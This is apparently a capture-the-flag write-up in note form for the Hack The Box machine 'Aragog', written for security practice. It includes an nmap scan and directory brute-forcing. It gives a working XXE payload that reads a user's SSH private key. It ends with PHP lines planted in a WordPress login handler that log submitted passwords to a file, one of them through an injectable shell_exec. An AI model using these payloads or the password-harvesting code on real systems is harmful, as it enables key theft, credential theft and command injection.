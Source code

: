 #  Aragog

# keyword

gobuster,  xxe 

# information

 nmap -sC -sV  -oA nmap 10.10.10.78
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-28 10:30 CST
Nmap scan report for 10.10.10.78
Host is up (0.29s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
|   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
|_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# apache in post method

```html
POST / HTTP/1.1
Host: 789
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

HTTP/1.1 400 Bad Request
Date: Thu, 28 Mar 2019 04:57:10 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 423
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<p>Additionally, a 400 Bad Request
error was encountered while trying to use an ErrorDocument to handle the request.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at aragog.htb Port 80</address>
</body></html>


```

### aragog.htb

# Enum php extension

```bash
 /opt/dirsearch/dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e php -u http://aragog.htb -f

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 10 | Wordlist size: 441041

Error Log: /opt/dirsearch/logs/errors-19-03-28_16-38-16.log

Target: http://aragog.htb

[16:38:17] Starting:
[16:38:18] 403 -  289B  - /.php
[16:38:23] 403 -  291B  - /icons/
[16:47:43] 200 -   46B  - /hosts.php
```

# XEE payload

XML External Entity

> An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.
Syntax: `<!ENTITY entity_name "entity_value">`

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by `SYSTEM`.
Syntax: `<!ENTITY entity_name SYSTEM "entity_value">`

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

```php
POST /hosts.php HTTP/1.1
Host: aragog.htb
User-Agent: python2.u7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 186

<?xml version="1.0"?>

<!DOCTYPE root [<!ENTITY file SYSTEM 'file:///home/florian/.ssh/id_rsa'>]>
<details>
    <subnet_mask>&file;</subnet_mask>
    <test>&file;</test>
</details>


```

#  login with rsa

#   file_put_contents

Hi Florian,

Thought we could use a wiki.  Feel free to log in and have a poke around – but as I’m messing about with a lot of changes I’ll probably be restoring the site from backup fairly frequently!

I’ll be logging in regularly and will email the wider team when I need some more testers

```php
shell_exec("echo ".$_POST['log'].":".$_POST['pwd']." >> /tmp/pass");

file_put_contents(".aaa", $_POST['log'].":".$_POST['pwd']."\n",  FILE_APPEND);
```

```php
case 'login' :
default:
	file_put_contents(".aaa", $_POST['log'].":".$_POST['pwd']."\n",  FILE_APPEND);
        $secure_cookie = '';
        $customize_login = isset( $_REQUEST['customize-login'] );
        if ( $customize_login )
                wp_enqueue_script( 'customize-base' );


```

 